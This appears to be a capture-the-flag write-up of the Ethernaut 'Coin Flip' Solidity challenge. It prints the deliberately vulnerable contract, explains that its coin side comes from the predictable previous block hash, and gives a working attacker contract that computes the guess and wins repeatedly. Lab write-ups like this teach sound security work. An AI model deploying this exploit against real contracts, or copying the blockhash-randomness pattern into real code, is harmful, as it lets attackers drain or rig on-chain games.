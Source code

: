 <div align="center">

# Coin Flip

</div>



**Coin Flip (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**
   - `flip(bool _guess)` computes a coin side from the previous block hash:
     ```solidity
     uint256 blockValue = uint256(blockhash(block.number - 1));
     uint256 coinFlip = blockValue / FACTOR;
     bool side = coinFlip == 1 ? true : false;
     ```
   - `FACTOR` is a constant that effectively maps `blockhash` into two possible values (0 or 1).
   - `lastHash` prevents using the same `blockhash` twice in a row — the contract reverts if the previous block hash equals the current computed `blockValue`.
   - **Key flaw:** `blockhash(block.number - 1)` is public and predictable at call time, so anyone can compute `side` off-chain and pass the correct `_guess`.

2. **Exploit Method**
   - Read the previous block hash (or compute it the same way the contract does).
   - Compute `side` exactly like the contract: `side = (uint256(blockhash(block.number - 1)) / FACTOR) == 1`.
   - Call `flip(side)` — it will match and increment `consecutiveWins`.
   - Repeat the call for 10 consecutive wins. 
  
## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack {
    CoinFlip private immutable target;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


    constructor(address _target){
        target = CoinFlip(_target);
    }

    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "guess failed");
    }

    function _guess()private view  returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return  side;

    }
}

```



---


